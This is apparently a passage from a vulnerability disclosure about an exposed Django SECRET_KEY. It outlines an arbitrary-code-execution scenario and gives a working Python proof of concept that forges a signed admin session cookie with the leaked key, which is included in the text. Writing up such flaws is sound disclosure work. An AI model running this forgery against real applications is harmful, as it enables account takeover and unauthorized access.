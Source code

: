 #### Scenario 4: Arbitrary Code Execution
```
1. If application uses pickle or similar serialization with signing
2. Attacker can create malicious signed payloads
3. Deserialization leads to remote code execution
4. Complete system compromise
```

---

## Proof of Concept

### Session Cookie Forgery

![Screenshot showing Successfull_sessionforge_attack in settings.py](sessionforge.png)
```python
#!/usr/bin/env python3
"""
PoC: Django Session Cookie Forgery
Demonstrates session hijacking using exposed SECRET_KEY
"""

from django.core import signing
from django.contrib.sessions.serializers import JSONSerializer
import json

# The exposed SECRET_KEY from the vulnerable application
SECRET_KEY = 'django-insecure-vsxlkoda(-#mhn81#)vd(^5fojxq6hr0vd-$siv3z9!5t@z$ai'

# Create arbitrary session data (e.g., admin user)
session_data = {
    '_auth_user_id': '1',  # User ID 1 (typically admin)
    '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
    '_auth_user_hash': 'arbitrary_hash',
}

# Serialize and sign the session
serializer = JSONSerializer()
encoded_data = serializer.dumps(session_data)
signer = signing.TimestampSigner(key=SECRET_KEY, salt='django.contrib.sessions.backends.signed_cookies')
signed_value = signer.sign(encoded_data)

print("Forged Session Cookie:")
print(f"sessionid={signed_value}")
print("\nThis cookie grants admin access to the application")
```
